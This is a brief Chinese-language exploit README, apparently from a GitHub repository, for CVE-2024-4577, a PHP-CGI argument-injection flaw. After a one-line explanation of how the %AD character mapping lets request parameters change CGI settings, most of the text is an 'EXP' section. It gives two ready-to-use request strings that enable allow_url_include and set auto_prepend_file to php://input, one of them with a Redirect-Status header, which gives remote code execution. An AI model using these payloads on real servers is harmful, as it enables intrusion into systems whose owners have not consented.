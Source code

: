 # CVE-2024-4577

## 分析

漏洞的起因就是字符映射，将%ad映射成了-，导致了cgi修改配置的rce。

利用方式有两种，一种就是直接改`cgi.force_redirect`，第二种就是header头设置`REDIRECT-STATUS`

## EXP

```bash
/php-cgi/php-cgi.exe?%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input+%ADd+cgi.force_redirect%3d0+%ADd+error_reporting%3d0
```



```bash
/php-cgi/php-cgi.exe?%ADd+allow_url_include%3d1+%ADd+auto_prepend_file%3dphp://input+%ADd+error_reporting%3d0

Redirect-Status: 1
```





## References

https://wx.zsxq.com/dweb2/index/topic_detail/1522152528151552

https://labs.watchtowr.com/no-way-php-strikes-again-cve-2024-4577/

https://wx.zsxq.com/dweb2/index/topic_detail/8855485848442182







